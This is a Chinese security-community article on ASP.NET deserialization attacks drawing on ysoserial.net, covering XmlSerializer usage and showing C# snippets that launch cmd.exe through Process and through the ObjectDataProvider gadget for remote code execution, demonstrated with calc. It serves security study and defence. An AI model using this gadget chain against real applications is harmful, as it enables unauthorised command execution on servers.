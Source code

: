 

# asp.net反序列化的思考和总结 - 先知社区

asp.net反序列化的思考和总结

* * *

## 前言

这篇文章是在Y4er博客和ysoserial.net项目上，总结出的一些关键东西和我自己的思考，希望可以对大家有所帮助。

## 基础知识

[https://xz.aliyun.com/t/9591](https://xz.aliyun.com/t/9591)

## 反序列化--基于ysoserial的分析

## XMLSerializer

命名空间：[System.Xml.Serialization](https://docs.microsoft.com/zh-cn/dotnet/api/system.xml.serialization?view=net-5.0)，程序集为：System.Xml.XmlSerializer.dll

条件：对象的公共(public)属性和公共字段

几种获取type的方式

```plain
XmlSerializer xmlSerializer = new XmlSerializer(typeof(Person));// typeof()
XmlSerializer xmlSerializer1 = new XmlSerializer(p.GetType());  // 对象的GetType()方法
XmlSerializer xmlSerializer2 = new XmlSerializer(Type.GetType("XmlDeserialization.Person")); //使用命名空间加类名
```

### 反序列化攻击链

在c#中利用Process类实现命令执行的语句

```plain
Process process = new Process();
process.StartInfo.FileName = "cmd.exe";
process.StartInfo.Arguments = "/c " + cmd;
process.Start();
```

对于ObjectDataProvider实现RCE的代码：

（该类可以调用任意类的任意方法）

```plain
ObjectDataProvider o = new ObjectDataProvider();
o.MethodParameters.Add("cmd.exe");
o.MethodParameters.Add("/c calc");
o.MethodName = "Start";
o.ObjectInstance = new Process();
```
